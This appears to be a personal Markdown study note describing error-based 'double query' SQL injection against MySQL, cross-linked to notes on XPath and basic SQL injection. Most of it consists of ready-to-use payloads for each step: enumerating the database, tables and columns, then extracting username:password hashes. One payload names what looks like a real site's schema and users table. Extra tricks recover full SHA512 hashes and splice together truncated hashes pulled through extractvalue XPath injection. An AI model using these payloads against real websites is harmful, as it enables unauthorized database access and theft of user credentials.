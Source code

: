 # <mark style="background: #FF5582A6;">Prerequisite :</mark> 
[[12-Xpath Injection]]
# <mark style="background: #FF5582A6;">Description :</mark> 

1. Hashed password are <mark style="background: #FF5582A6;">32</mark> characters or <mark style="background: #FF5582A6;">40</mark> characters.
   So if, for example, the password we obtained with [[12-Xpath Injection]], if it has <mark style="background: #FF5582A6;">33</mark> characters, it means, it's incomplete and we have to use : <mark style="background: #FF5582A6;">Double Query</mark> .

2. if nothing is displayed with the first double query command, then we don't have this vulnerability.

3. if double query and [[12-Xpath Injection]] methods, don't work from one of the steps, we will continue with [[02-Sql Injection (Basic)]].
    because [[02-Sql Injection (Basic)]] doesn't limit the number of characters to be printed, of course, if the site has this vulnerability.

4. if we encounter an <mark style="background: #FF5582A6;">Not Acceptable error</mark> in <mark style="background: #FF5582A6;">the first step of the double query</mark> , <mark style="background: #FF5582A6;">there isn't any bypass</mark> for this.

# How To Do :
## Step 1 :
database :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(database() as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 

## Step 2 :
table :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 

## Step 3 :
column :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name='user_data' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 

## Step 4 :
extract information :

- <mark style="background: #FFB86CA6;">and (select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x3a,password) as char),0x7e)) from edgartlb_content.wafm2_users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)</mark> 


## <mark style="background: #FF5582A6;">Important Point 1 :</mark> 
the double query method can be print <mark style="background: #FF5582A6;">63</mark> characters, therefore, it can't print <mark style="background: #FF5582A6;">sha512</mark> hashed passwords that are <mark style="background: #FF5582A6;">112 to 128</mark> characters.
to solve this problem, we have the following command :

- <mark style="background: #FFB86CA6;">And(select 1 from(select count(*),concat(0x3a,(select substr(group_concat(username,0x3a,password),1,150) from admin where table_schema like database()),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)z)-- -</mark> 

if we encounter this error : <mark style="background: #FF5582A6;">Subquery returns more than 1 row</mark> 
in the last step of double query, we use the command above.

## <mark style="background: #FF5582A6;">Important Point 2 :</mark> 
In the last step of [[12-Xpath Injection]]
if the password is hashed, it will not be shown in full. because the xpath injection can be print <mark style="background: #FF5582A6;">32 characters</mark> and one character is <mark style="background: #FF5582A6;">0x7e</mark> , so the hashed password in xpath injection is always <mark style="background: #FF5582A6;">incomplete</mark> .
to solve this problem, we type the first code (1), we write down the hashed password that is displayed then we type the second code (2), and we wirte down the second hashed password under the first hashed password (every character is below the character of the first hashed password, we add the additional characters of the lower password to the upper password) and <mark style="background: #FF5582A6;">complete the password</mark> .
(<mark style="background: #FF5582A6;">in second code, we delete the 0x7e</mark> )

1. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat(0x7e,(select concat(pass) from admin limit 0,1)))--</mark> 

2. <mark style="background: #FFB86CA6;">and extractvalue(rand(),concat((select concat(pass) from admin limit 0,1)))--</mark> 

So if we encounter an error with the second code (2), that is, we got an error by deleting 0x7e, we use double query as follow :

 - <mark style="background: #FF5582A6;">in this situation, we don't start double query steps from the start, because we found the important table and the important columns.</mark> 
 - <mark style="background: #FF5582A6;">at first, we do the first step if the double query to find the version.</mark> 
 - <mark style="background: #FF5582A6;">then we go to the last step of the double query and we write the name of the database that we found before the important table.</mark> 
 - <mark style="background: #FF5582A6;">of course, double query commands can be also be used from the beginning without xpath injection.</mark> 
    <mark style="background: #FF5582A6;">but it's used most of the time that :</mark> we encounter problems by completing the password in [[12-Xpath Injection]] as explained above, or we encounter an forbidden in the second step of [[12-Xpath Injection]] or in the second step in [[12-Xpath Injection]] the website page is completely loaded.